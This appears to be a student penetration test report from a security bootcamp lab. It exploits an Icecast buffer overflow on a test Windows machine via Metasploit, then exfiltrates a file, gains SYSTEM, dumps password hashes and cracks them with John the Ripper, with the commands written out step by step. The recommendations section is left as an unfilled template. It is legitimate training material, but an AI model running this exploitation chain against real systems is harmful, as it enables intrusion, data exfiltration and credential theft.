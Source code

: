 GoodSecurity Penetration Test Report

[ScottHansen\@GoodSecurity.com](mailto:YOURNAMEHERE@GoodSecurity.com)

October 25 2021

1.  # High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on
GoodCorp's CEO, Hans Gruber. An internal penetration test is a dedicated
attack against internally connected systems. The focus of this test is
to perform attacks, similar to those of a hacker and attempt to
infiltrate Hans' computer and determine if it is at risk. GoodSecurity's
overall objective was to exploit any vulnerable software and find the
secret recipe file on Hans' computer, while reporting the findings back
to GoodCorp.

When performing the internal penetration test, there were several
alarming vulnerabilities that were

identified on Hans' desktop. When performing the attacks, GoodSecurity
was able to gain access to his machine and find the secret recipe file
by exploit two programs that had major vulnerabilities. The details of
the attack can be found in the 'Findings' category.

1.  # Findings

Machine IP:

192.168.0.6

Hostname:

MSEDGEWIN10

Vulnerability Exploited:

Icecast Header Overwrite (metasploit exploit/windows/http/icecast_header

Vulnerability Explanation:

During our investigation we found that this comoputer was subject to a
buffer overflow exploit that allows an attacker to remotely gain control
of the system, using the Icecast service on port 8000. This explopit
operated by over writing the memory on the affected system.

Some actions that an attacker may take on a vulnerable system are:

Key logging

File discovery

Downloading and uploading files and executables to system.

Also found in the discovery process is that this system is also
vulnerable to:

Ikeext Service Exploitation (EXPLOIT/WINDOWS/LOCAL/IKEEXT_SERVICE) which
exploits the ikeext service witch runs as system, and starts
automaticaly in Vista-Win8

Windows Net-NTLMv2 (exploit/windows/local/ms16_075_reflection) this
exploit can be used for privilege elevations.

Severity:

Because of the multiple exploits found, as well as the fact it allows us
privilage escalation, uploading and downloading of files, this would be
classified as a Critical Severity Level.

Proof of Concept:

Normally during a penetration I would have to break into the network and scan the network in order to find the computer that I would then need to attack. However that was not the scope of this test, and I was given access to the network as well as the working IP address of the victims computer (192.168.0.6)

Now that I have both network connection and the IP address, I run the NMAP tool with the option os -sV, which allows us to see the service or version of what's running on that port. The command looked like `nmap -sV`


As we see it's the normal services running on the ports except port 8000, which has Icecast running on it. Once I found out this information I quick Googled, Icecast to find out what it is, and found that it's an open source or free in other terms, streaming server for audio/video. 
With that knowledge I searched for an exploit using the searchsploit command. This is easily done by typing `searchsploit Icecast`, and as you see a couple exploits were found. 


Now that I found it to be vulnerable, I opened the Metasploit program. This is another database of exploits, that we can uses to attack a vulnerability. The command to run this program is `msfconsole`.


Once Metasploit opened I again searched to see if Icecast had an exploit in here. I did this by running `search Icecast` which returned the following result.

To use this module I typed in `use 0`. This will load the module so I can see the information on it and start manipulating the data in order to point it at the correct machine. 


Before I could use this exploit I would need to know what information I would need to input in order for it to work. I use the `info` command to view the information about the module, and what variable I had to set. 


I then proceeded to set the Remote hosts IP address to the victims computer by typing `set RHOST 192.168.0.6`

I then had to set the local hosts or my computers IP address in the module as well. This is specific to my testing computer. To do this I ran the command `set LHOST 192.168.0.2`

I then typed `run` which delivered the payload and opened up a Meterpreter command line. Meterpreter runs in the memory of the victims computer and does not install anything to the hard drive. 

Once I had the command line I typed `getuid`. This command gives me the user ID of who I'm logged in as. in this case it's the IEUser on the MSEDGEWIN10 network. 

I also ran the `pwd` command which tells me what directory I'm currently in. This information is needed in order to accurately move around the system. 

I then set out to find the secret recipe file and exfiltrate it. 

The first command I ran was `search -f *secret*txt -r` this searched the victims computer for a text file that contained the work secret. It returned one file located at `c:\Users\IEUser\Documents\user.secretfile.txt`. This file was not the file I was tasked with exfiltrating, so I left it alone. 

I then modified my search to `search -f *recipe*.txt` this returned the file that I was tasked to exfiltrate, located at `c:\Users\IEUser\Documents\Drinks.recipe.txt`

Now with the location I began to exfiltrate (download) the file, using the following command `download "c:\Users\IEUser\Documents\Drinks.recipe.txt"`

I then opened another terminal and ran `cat Drinks.recipe.txt` to view the contents of the file. 

Then just to prove that I had accessed the computer, and viewed the secret recipe file. I uploaded a file to the same location `c:\Users\IEUser\Documents\` called Doctor.txt which contains the next line of the song. 

![upload](https://github.com/shansen18/BootCamp/blob/main/Week17/images/upload.JPG)
![upload2](https://github.com/shansen18/BootCamp/blob/main/Week17/images/uploadedtextfile.JPG)
![upload3](https://github.com/shansen18/BootCamp/blob/main/Week17/images/Contentsdoctor.JPG)

At this point we are done with the exercise. I have exploited a vulnerability on the victims computer, and was both able to exfiltrate a file, as well as upload my own file. However I feel to further prove our standpoint that this is a critical flaw. To do this I will run a script that will show all logged on users, open a shell on the victims computer, show the victims computers information, as well as retrieve and crack his password. 


So the first thing I did was to the command `run post/windows/gather/enum_logged_on_users` while still in the Meterpreter command line. This returned the user IEUser as the only one currently logged in but we can also see two other users recently logged in. 

![userenum](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/enum_logged_on_users.JPG)


I then ran the command `shell` to open a shell, which basically acts and uses the same commands as a windows command prompt. 

![shell](https://github.com/shansen18/BootCamp/blob/main/Week17/images/shell.JPG)


Going back to Meterpreter I ran the `sysinfo` command which gave me the information in the following screenshot. 

![systeminfo](https://github.com/shansen18/BootCamp/blob/e5c97c371c3a80a0bddbdea6480b5f8218ace37c/Week17/images/getsystem.JPG)


So now using the `getsystem` command I was able to get Root or admin privilege. 

![getroot](https://github.com/shansen18/BootCamp/blob/main/Week17/images/getpriv.JPG)


From there in Meterpreter I ran the following command to get the password hashes. 
`run post/windows/gather/hashdump`

![hash](https://github.com/shansen18/BootCamp/blob/main/Week17/images/hashdump.JPG)


Once I received the hashes, I copied them to a file I named hashes.txt on my attacking machine. From there I ran a program called John the Ripper to crack the hashes. In order to do this I had to run the following command `john --format=NT --wordlist=rockyou.txt hashes.txt`  This returned the following information. 

![john](https://github.com/shansen18/BootCamp/blob/e5c97c371c3a80a0bddbdea6480b5f8218ace37c/Week17/images/john_results.JPG)

There should be a separate finding for each vulnerability found!

1.  # Recommendations

What recommendations would you give to GoodCorp?
